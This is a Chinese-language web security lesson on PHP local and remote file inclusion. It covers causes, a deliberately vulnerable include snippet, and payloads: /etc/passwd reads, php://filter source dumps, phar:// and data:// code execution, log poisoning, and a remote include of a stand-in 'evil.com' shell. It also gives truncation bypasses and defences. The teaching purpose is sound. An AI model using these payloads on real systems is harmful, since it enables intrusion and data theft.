









# 🛡️ 课程P20：第18天 - 本地与远程文件包含漏洞详解

在本节课中，我们将要学习网络安全中一个重要的漏洞类型——文件包含漏洞。我们将从基本概念入手，逐步了解其类型、利用方式、潜在危害以及如何防御。

## 📖 第一部分：文件包含漏洞概述

文件包含是指开发人员将需要重复调用的函数写入一个单独的文件，并在需要时通过特定函数将该文件包含进来的操作。这种做法可以减少代码冗余，降低后期维护难度，并保持网站风格统一。例如，网站的页头和页脚通常就是通过文件包含来实现的。

那么，为什么这会成为一个漏洞呢？漏洞产生的根本原因在于，用于文件包含的函数（如 `include`）所加载的参数没有经过严格的过滤或定义，可以被攻击者控制。攻击者利用这一点，可以包含服务器上的其他文件，从而执行非预期的恶意代码。

我们来看一段典型的漏洞代码：

```php
<?php
    $file = $_GET['file'];
    include($file);
?>
```

在这段代码中，`file` 参数通过 `GET` 方式从URL中获取，并直接传递给 `include` 函数。如果攻击者在URL中构造 `?file=恶意文件路径`，服务器就会包含并执行该文件。





PHP中常见的文件包含函数有四个：
*   **`require`**: 包含文件，出错时直接报错并终止脚本。
*   **`require_once`**: 与 `require` 类似，但确保同一文件只被包含一次。
*   **`include`**: 包含文件，出错时抛出警告，但脚本继续执行。
*   **`include_once`**: 与 `include` 类似，但确保同一文件只被包含一次。

在代码审计时，可以全局搜索这些关键词来寻找潜在的漏洞点。

上一节我们介绍了文件包含的基本概念和漏洞成因，本节中我们来看看文件包含漏洞的具体类型。

## 🔍 第二部分：文件包含漏洞类型及利用

文件包含漏洞主要分为两种类型：本地文件包含和远程文件包含。

### 📁 本地文件包含





本地文件包含是指被包含的文件位于服务器本地。攻击者可以利用此漏洞包含服务器上的敏感文件或自己上传的恶意文件。

以下是本地文件包含的几种常见利用方式：

**1. 包含系统敏感文件**
攻击者可以尝试包含系统配置文件，以获取敏感信息。例如，在Windows系统上尝试包含 `C:\Windows\win.ini` 文件。

**2. 包含上传的文件**
如果网站存在文件上传功能，并且上传的文件路径可知，攻击者可以上传一个包含PHP代码的文本文件（如 `shell.txt`），然后通过LFI漏洞包含它。只要文件内容符合PHP语法，无论后缀名是什么，都会被服务器解析执行。

**3. 利用日志文件**
Web服务器（如Apache）的访问日志会记录客户端的请求信息。攻击者可以故意访问一个包含PHP代码的URL（如 `http://目标站点/<?php phpinfo();?>`），这段代码会被记录到日志文件中。随后，利用LFI漏洞包含这个日志文件，其中的PHP代码就会被执行。需要注意的是，浏览器会对特殊字符进行URL编码，因此可能需要使用代理工具拦截请求，将编码后的字符改回正常字符。

**4. 使用PHP内置协议**
PHP提供了一些包装协议，可以用于LFU攻击：
*   **`file://`**: 用于访问本地文件系统，例如 `?file=file:///etc/passwd`。
*   **`php://filter`**: 常用于读取PHP文件源码。它可以将文件内容用指定编码（如Base64）输出，从而避免被直接执行。例如：`?file=php://filter/convert.base64-encode/resource=index.php`，解码后即可获得源代码。
*   **`zip://` 或 `phar://`**: 可以访问压缩包内的文件。攻击者可以上传一个包含恶意PHP脚本的压缩包（后缀可改为 `.jpg` 绕过检查），然后利用此协议包含压缩包内的脚本文件。例如：`?file=phar://./uploads/evil.jpg/evil.php`。

### 🌐 远程文件包含

远程文件包含是指被包含的文件位于远程服务器上。攻击者可以指定一个URL，让目标服务器去包含并执行远程服务器上的恶意文件。

RFI漏洞的利用需要满足两个PHP配置条件（在 `php.ini` 中）：
1.  `allow_url_fopen = On`
2.  `allow_url_include = On` (在PHP 5.2之后默认关闭，因此RFI较难利用)



利用方式示例：
攻击者可以在自己的服务器上放置一个包含PHP代码的文本文件（如 `http://攻击者服务器/shell.txt`），然后通过存在RFI漏洞的参数去包含它：`?file=http://攻击者服务器/shell.txt`。

此外，也可以利用 `php://input` 协议，将POST请求体中的数据作为PHP代码执行。或者使用 `data://` 协议，直接包含数据流中的代码，例如：`?file=data://text/plain,<?php phpinfo();?>`。

了解了漏洞的利用方式后，我们来看看攻击者如何绕过一些常见的防护措施。

## 🚧 第三部分：绕过方式

开发人员可能会对文件包含的参数进行一些过滤，攻击者则需要找到方法绕过。

**本地文件包含绕过：**
1.  **空字节截断**：在某些旧版本PHP中，可以使用 `%00`（空字节）来截断后面的字符串。例如，如果代码固定添加后缀 `.html`，可构造 `?file=../../../etc/passwd%00`，使 `.html` 被忽略。
2.  **路径长度截断**：在Windows系统下，当路径长度超过256字节时，超出的部分会被丢弃。可以构造超长的 `../` 序列来使后缀无效。

**远程文件包含绕过：**
如果代码在传入的路径后添加了固定后缀，可以尝试在URL后添加 `?` 或 `#`（需编码为 `%23`），使其成为查询字符串或锚点，从而避免被拼接。例如：`?file=http://evil.com/shell.php?`。

## ⚠️ 第四部分：漏洞危害与防御

**危害：**
1.  读取服务器敏感文件（如配置文件、源代码），导致信息泄露。
2.  执行任意系统命令。
3.  配合文件上传等功能，获取网站服务器权限。

**防御措施：**
1.  **避免动态包含**：尽量避免使用变量动态生成包含文件的路径。
2.  **严格过滤输入**：对用户输入的包含参数进行严格检查，过滤 `../` 等目录遍历字符。
3.  **使用白名单**：如果必须动态包含，应使用白名单机制，只允许包含指定的几个文件。
4.  **关闭危险配置**：在 `php.ini` 中确保 `allow_url_fopen` 和 `allow_url_include` 设置为 `Off`。
5.  **设置包含目录限制**：使用 `open_basedir` 配置项限制PHP可以访问的目录范围。
6.  **服务端验证**：所有关键的安全校验必须在服务端进行，不能依赖客户端。

## 📝 第五部分：课后作业

为了巩固本节课的知识，请完成以下实践：
1.  访问提供的实验环境地址，尝试利用文件包含漏洞获取目标服务器的权限。
2.  总结你的利用步骤，并思考如何防御此类攻击。
请将你的解题思路和过程整理成文档。







---



本节课中我们一起学习了文件包含漏洞的原理、类型（LFI和RFI）、多种利用手法（包含敏感文件、日志、利用PHP协议）、常见的绕过方式，以及最重要的——如何从开发角度防御此类漏洞。理解并掌握这些内容，对于从事Web安全测试或开发工作都至关重要。